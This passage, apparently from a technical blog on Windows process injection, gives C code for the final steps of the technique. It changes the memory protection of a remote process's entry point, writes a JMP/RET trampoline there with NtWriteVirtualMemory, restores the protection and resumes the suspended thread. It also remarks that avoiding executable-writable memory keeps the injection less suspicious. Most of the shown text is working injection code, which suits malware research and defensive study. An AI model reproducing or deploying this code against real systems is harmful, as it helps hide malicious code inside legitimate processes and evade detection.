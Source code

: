 ```c

PIMAGE_DOS_HEADER pDosH = (PIMAGE_DOS_HEADER)headersbuffer;
PIMAGE_NT_HEADERS pNtH = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersbuffer + pDosH->e_lfanew);
LPVOID rEntrypoint = (LPVOID)(imageBase + pNtH->OptionalHeader.AddressOfEntryPoint);
```

#### 5. Updating the entrypoint and patching the PEB

At this stage I'm experimenting, and let's just say my lab would have blown up multiple times by now if this was chemistry.

First I need to change the memory protection of the first 6 bytes of the remote *entry point*, they're set to **PAGE_EXECUTE_READ** by default and I will need **PAGE_READWRITE** access. I could also change protections to **PAGE_EXECUTE_READWRITE** but having an executable and writable memory block is extremely suspicious.

After changing the protections, I construct a patch that will overwrite the remote image base address with a `JMP <offset>; RET;` instruction. 

|Opcode|Instruction|Description|
|---|---|---|
|0xE9|JMP|Jump near, relative, RIP = RIP + 32-bit displacement sign extended to 64-bits|
|0xC3|RET|Pops return address off stack, continues execution at that address|

The remote *entry point* address is then overwritten with the patch and memory protections are restored to **PAGE_EXECUTE_READ**.

```c
DWORD oldProtect;
SIZE_T bytesToChange = 6;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, PAGE_READWRITE, &oldProtect);

char patch[6] = { 0 };
memcpy_s(patch, 1, "\xE9", 1);
DWORD jumpsize = rBaseAddr - rEntrypoint;
memcpy_s(patch + 1, 4, &jumpsize, 4);
memcpy_s(patch + 5, 1, "\xC3", 1);
bytesWritten = 0;
NtWriteVirtualMemory(pi.hProcess, rEntrypoint, patch, sizeof(patch), &bytesWritten);

DWORD oldOldProtect;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, oldProtect, &oldOldProtect);
```

#### 6. Resuming the process

Finally, the process is resumed.

```c
NtResumeThread(pi.hThread, NULL);
```

### 8. One step forward, 2 steps back
